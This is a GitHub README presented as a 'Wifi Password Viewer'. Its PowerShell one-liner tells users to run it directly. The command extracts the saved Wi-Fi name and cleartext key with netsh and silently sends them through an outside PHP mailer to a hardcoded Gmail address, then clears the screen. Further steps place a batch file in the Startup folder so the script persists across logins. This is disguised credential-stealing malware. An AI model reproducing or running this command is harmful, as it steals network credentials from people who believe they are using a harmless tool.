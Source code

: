 <h2 align="center">Hi 👋, I'm PROTAN HALDER</h2>
<h3 align="center">A Wifi Password Viewer.</h3>


#### Directly Run this command in The PowerShell.
```
$SSID = (netsh wlan show profile|find "All User Profile").Split(":")[1].SubString(1); $PWD  = (netsh wlan show profile name="$SSID"  key=clear | find "Key Content").Split(":")[1].SubString(1); $Data = "SSID :$SSID`nPASS :$PWD ";Invoke-WebRequest -Uri "https://email-pranks.000webhostapp.com/gmail.php?from=hasanhawladar2021@codewithharry.com&to=protanhalder2022@gmail.com&subject=Wifi Information of $Data&message=$Data";clear;echo $Data
```

#### ~ you should pase the "WiFucker.bat" file into the StartUp folder [ (window+R) shell:startup]

#### then paste the "WiFucker.ps1" file into another folder exept StartUp folder.

#### then copy the path of "WiFucker.ps1" file and replace the path from "WiFucker.bat" file . 
